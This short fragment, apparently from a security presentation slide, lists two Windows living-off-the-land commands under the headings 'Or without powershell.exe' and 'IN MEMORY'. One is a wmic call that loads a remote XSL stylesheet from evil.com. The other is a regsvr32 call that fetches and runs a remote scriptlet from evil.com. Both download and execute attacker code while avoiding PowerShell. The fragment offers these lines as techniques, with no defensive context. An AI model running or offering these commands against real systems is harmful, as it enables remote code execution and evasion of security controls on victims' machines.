

# Or without powershell.exe
IN MEMORY
wmic process get brief /format:"https://evil.com/s9gsG.xsl"
regsvr32 /s /n /u /i:http://evil.com/t.sct scrobj.dll